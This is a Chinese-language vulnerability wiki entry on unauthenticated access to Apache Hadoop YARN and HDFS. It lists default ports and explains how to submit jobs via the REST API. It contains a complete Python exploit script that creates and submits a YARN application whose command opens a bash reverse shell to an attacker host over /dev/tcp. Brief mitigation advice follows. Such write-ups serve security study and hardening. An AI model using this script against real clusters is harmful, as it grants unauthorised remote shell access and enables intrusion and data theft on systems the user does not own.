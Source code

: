 Hadoop未授权访问
================

一、漏洞简介
------------

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce
> 算法进行分布式处理。这个框架被Adobe，Last
> fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

-   用户创建一个处理键值的map函数

-   产生了一套中间键/值

-   reduce函数合并中间值并把他们关联到对应的键

二、影响范围
------------

三、复现过程
------------

#### 1. 扫描探测

##### 1.1 常见端口

![](/Users/aresx/Documents/VulWiki/.resource/Hadoop未授权访问/media/rId26.png)

##### 1.2 敏感端口

  模块        节点                     默认端口
  ----------- ------------------------ ----------
  HDFS        NameNode                 50070
  HDFS        SecondNameNode           50090
  HDFS        DataNode                 50075
  HDFS        Backup/Checkpoint node   50105
  MapReduce   JobTracker               50030
  MapReduce   TaskTracker              50060

通过访问 NameNode WebUI 管理界面的 50070
端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075
开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS
存储的数据进行操作。

![](/Users/aresx/Documents/VulWiki/.resource/Hadoop未授权访问/media/rId28.png)

#### 2. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST
API 也可以提交任务执行。

利用过程如下：

-   在本地监听等待反弹 shell 连接

-   调用 New Application API 创建 Application

-   调用 Submit Application API 提交

**P牛的攻击脚本**

    ##!/usr/bin/env python

    import requests

    target = 'http://127.0.0.1:8088/'
    lhost = '192.168.0.1' ## put your local host ip here, and listen at port 9999

    url = target + 'ws/v1/cluster/apps/new-application'
    resp = requests.post(url)
    app_id = resp.json()['application-id']
    url = target + 'ws/v1/cluster/apps'
    data = {
        'application-id': app_id,
        'application-name': 'get-shell',
        'am-container-spec': {
            'commands': {
                'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
            },
        },
        'application-type': 'YARN',
    }
    requests.post(url, json=data)

![](/Users/aresx/Documents/VulWiki/.resource/Hadoop未授权访问/media/rId30.png)

#### 3. 防范措施

网络访问控制 使用 安全组防火墙 或本地操作系统防火墙对访问源 IP
进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop
服务所有端口发布到互联网。

启用认证功能 启用 Kerberos 认证功能。

更新补丁 不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。

